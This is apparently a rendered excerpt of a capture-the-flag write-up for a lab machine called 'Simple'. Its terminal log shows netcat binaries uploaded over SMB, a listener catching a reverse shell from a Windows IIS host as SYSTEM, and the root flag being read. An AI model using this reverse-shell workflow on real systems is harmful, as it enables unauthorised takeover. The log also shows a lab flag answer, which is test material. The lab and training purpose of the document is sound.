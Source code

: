 ```css
putting file nc64.exe as \nc64.exe (14736.5 kb/s) (average 14737.0 kb/s)
smb: \> put nc.exe
putting file nc.exe as \nc.exe (3142.6 kb/s) (average 5461.5 kb/s)
smb: \> ^C

┌──(kali💀kali)-[~/temp/Simple/nc.exe-master]
└─$ nc -lvnp 4321
listening on [any] 4321 ...
connect to [172.20.10.8] from (UNKNOWN) [172.20.10.4] 49690
Microsoft Windows [Versi�n 10.0.17763.107]
(c) 2018 Microsoft Corporation. Todos los derechos reservados.

C:\inetpub\wwwroot>whoami
whoami
nt authority\system

C:\inetpub\wwwroot>cd \Users\Administrador\Desktop
cd \Users\Administrador\Desktop

C:\Users\Administrador\Desktop>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 26CD-AE41

 Directorio de C:\Users\Administrador\Desktop

26/09/2023  15:11    <DIR>          .
26/09/2023  15:11    <DIR>          ..
09/10/2023  00:07                66 root.txt
               1 archivos             66 bytes
               2 dirs  45.572.358.144 bytes libres

C:\Users\Administrador\Desktop>type root.txt
type root.txt
SIMPLE{S31MP3R50N4T3PR1V1L363}
```

得到flag！！！不幸中的万幸，全靠运气！！！

